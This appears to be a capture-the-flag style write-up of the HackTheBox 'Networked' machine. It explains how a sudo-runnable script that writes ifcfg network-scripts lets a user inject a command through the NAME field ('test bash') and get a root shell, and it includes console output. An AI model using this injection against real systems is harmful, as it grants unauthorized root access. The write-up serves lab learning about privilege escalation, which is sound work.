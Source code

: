 # Redhat/CentOS root through network-scripts
*Networked-Hackthebox*

If, for whatever reason, a user is able to **write** an ifcf-<whatever> script to **`/etc/sysconfig/network-scripts`** or it can 
**adjust** an existing one, then your system in pwned.

Network scripts, ifcg-eth0 for example are used for network connections. The look exactly like .INI files. However, 
they are *sourced* on Linux by Network Manager (dispatcher.d).

The `NAME=` attributed in these network scripts is not handled correctly. If you have white/blank space in 
the name the system tries to **execute the part after the white/blank space**. Which means; everything after the first 
blank space is executed as root.

For example in Networked machine - Hackthebox

Rights of the user that I own (guly)
```console
[guly@networked ~]$ sudo -l
Matching Defaults entries for guly on networked:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh
```
As guly I checked `sudo -l` and found that guly can run `/usr/local/sbin/changename.sh` as **root** without a password:

changename.sh:
```bash
[guly@networked ~]$ cat /usr/local/sbin/changename.sh
#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp="^[a-zA-Z0-9_\ /-]+$"

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
        echo "interface $var:"
        read x
        while [[ ! $x =~ $regexp ]]; do
                echo "wrong input, try again"
                echo "interface $var:"
                read x
        done
        echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
done
#command to activate the created network card
/sbin/ifup guly0  
[guly@networked ~]$
```
This script simply creates a network script for an interface called `guly` then activates that interface. It asks the user for these options: NAME, PROXY_METHOD, BROWSER_ONLY, BOOTPROTO.
```console
[guly@networked ~]$ sudo /usr/local/sbin/changename.sh
interface NAME:
test
interface PROXY_METHOD:
test
interface BROWSER_ONLY:
test
interface BOOTPROTO:
test
ERROR     : [/etc/sysconfig/network-scripts/ifup-eth] Device guly0 does not seem to be present, delaying initialization.
```
We can inject commands in the interface NAME. Let’s try to execute bash:
```console
[guly@networked ~]$ sudo /usr/local/sbin/changename.sh
interface NAME:
test bash     #invoke bash shell with root privileges
interface PROXY_METHOD:
test
interface BROWSER_ONLY:
test
interface BOOTPROTO:
test
[root@networked network-scripts]# whoami
root
[root@networked network-scripts]# id
uid=0(root) gid=0(root) groups=0(root)
```
